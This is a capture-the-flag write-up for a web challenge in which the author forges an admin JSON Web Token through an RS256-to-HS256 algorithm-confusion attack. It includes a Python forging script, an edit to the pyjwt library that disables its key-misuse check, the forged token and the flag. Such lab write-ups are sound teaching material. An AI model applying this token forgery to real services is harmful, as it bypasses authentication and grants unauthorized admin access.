 # Unlock Me (905 Points) - 22 Solves (Cat 3)

```
Our agents discovered COViD's admin panel! They also stole the credentials minion:banana, but it seems that the user isn't allowed in. Can you find another way?

Admin Panel (http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/)
```

When we visit the site, we are greeted a login page. However, when we try to key in the credentials `minion:banana` to login, we get a message `Only admins are allowed into HQ!` 

![1.jpg](1.jpg)

Let's take a look at the `Page Source` javascript to see what exactly is going on:

```javascript
$( "#signinForm" ).submit(function( event ) {
  event.preventDefault();
  fetch("login", {
    method: "POST",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({"username": $( "#inputUsername" ).first().val(), "password": $( "#inputPassword" ).first().val() })
  }).then(function(response) {
    return response.json();
  }).then(function(data) {
    if (data.error) {
      $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
    } else {
      fetch("unlock", {
        headers: {
          "Authorization": "Bearer " + data.accessToken
        }
      }).then(function(response) {
        return response.json();
      }).then(function(data) {
        if (data.error) {
          $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
        } else {
          $('#alerts').html('<div class="alert alert-success" role="alert">'+data.flag+'</div>');
        }
      }).catch(function(error) {
        $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
      })
    }
  }).catch(function(error) {
    $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
  })
});
// TODO: Add client-side verification using public.pem
```

So what the page is basically doing is:

1. Sends a POST request to the `login` with the credentials when the form is submitted
2. Gets the response, and then sends an `accessToken` to another `unlock` endpoint via GET
3. If the response `data.error` is false, then we will be given the flag (`data.flag`)

Looking at the response for step 2 in `Network` of Chrome Developer Tools:

```json
{error: "Only admins are allowed into HQ!"}
```

Hmmm, so it seems like the `accessToken` we are getting is... invalid? Let's take a look at it:

```json
{accessToken: "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NDMxMjY5fQ.QU38nbgiNtZdAgdzN5nqGmrqRt4QrkwKOLVXq27bOBX8zg7xFl09oM55qvZjD0sEOaQybiEauujlGH8mFKVvX-jcq1qSd8Z_MZkmi7T8VKFke8SFoxqhuNAo7d34md18p8jzHb4_7rdit5JOPjRvv0h5BikECqWuOWT2M07LDti7FNPitWkLd1Iv1UxnyC5ODfa5tCRyuj6rzH3oz7xdln2VBjftlwy9ZO1h-u8dY9kvMLdB6pEg2abM9-B7iopqHlRB93ceoKEgBFIihmwnGmlCat783_Iy5ibD1K0pmIMdHIf5ymoBfP5K8gGj7_seRI_XicvWT3bDW0XuKTAoO4_KPoKgAp7FJ3EhOoIBqeTkVmPygWssxcmderIuXBsnW3OCBnsDAyGANienUiQGjGGN00yGEcnCMk2v2HYGGfhCcRC5bhrmYCR_CDiVD2TvadQSngd8rrIh6EaDmyZ6w_DF7QG56-wuFIJLP99icUT_WZl82vuiN2cn4jbLCA4OihbZX-Kak0u5WzJ1l9VjuC94vITEJXypesOxgG_1rVUQr-IWRKRxTYw4QuqEJ2dlBW9WLgwHCYCPNe5_RUcrnY18azP1m4kt_g4RTI-NXcMBv_-ahwgepFuPSEC5Wx_EjFjRQj1_keilS6QA0mZt6w-pmVlN3enMJ-SLRek9tmk"}
```

Now, that looks oddly like a **JWT (JSON Web Token)**!

Let's put it into `jwt.io` to look at its contents:

![](2.jpg)

Aha! It seems like in the token, our role is only a `user`, but as we know **only admins can login**.

Now we can easily change the role value to "admin", but we will have to **resign the token(AccessCode) with a new signature** if not it will be invalid. *How will we do that?*  

When we relook at the page source, we noticed this HTML comment:

```html
// TODO: Add client-side verification using public.pem
```

Visiting the path `/public.pem` gives us a download of a public key.

Could it be the [RS256 => HS256 algorithm](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6) exploit? The **public key is necessary for this exploit to work**.

This exploit works by converting the algorithm used by the token from `RS256` to `HS256`. 

- RS256 is an **asymmetric algorithm**, which means that it uses a **private key** to **sign the signature**, and a **public key** to **verify the signature (for authentication)**.
- HS256 is a **symmetric algorithm**, which means that it uses the **same secret/key** to **sign and verify the signature**
- **If the backend accepts both HS256 AND RS256** as the algorithms accepted, when we change the algorithm from RS256 to HS256, the **backend treats the <u>known public key as the secret/key for HS256</u>**.
- Hence, we can **modify the token** and **sign it using the public key** for the **backend to accept the token using the HS256 algorithm**.



Therefore, let's first modify the payload to what we want:

```json
{
  "username": "minion",
  "role": "admin",
  "iat": 1607431269
}
```

We can then script a quick python script using the `pyjwt` library to sign our modified token:

```python
import jwt
encoded = jwt.encode({
  "username": "minion",
  "role": "admin",
  "iat": 1607431269
}, open("public.pem").read(), algorithm='HS256')
print(encoded)
```

**<u>Note:</u>** The Pyjwt library will try to stop you in order to protect the user, so you will have to modify the `<PYTHON DIR>\lib\site-packages\jwt\algorithms.py` file by commenting the following lines: (*line 150*)

```python
if any([string_value in key for string_value in invalid_strings]):
  raise InvalidKeyError(
    'The specified key is an asymmetric key or x509 certificate and'
    ' should not be used as an HMAC secret.')
```

and we will get our modified JWT :smile::

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzQzMTI2OX0.5cEY1Z0ZIu9zUokJEyiyiKPbmTb7jU49vCzzhnI8Pe0
```

Sending this to the `unlock` endpoint (with `GET`) with the header `Authorization: Bearer + <Modified JWT> `:

![](3.jpg)

Bingo! Hence we get the flag:

```
govtech-csg{5!gN_0F_+h3_T!m3S}
```

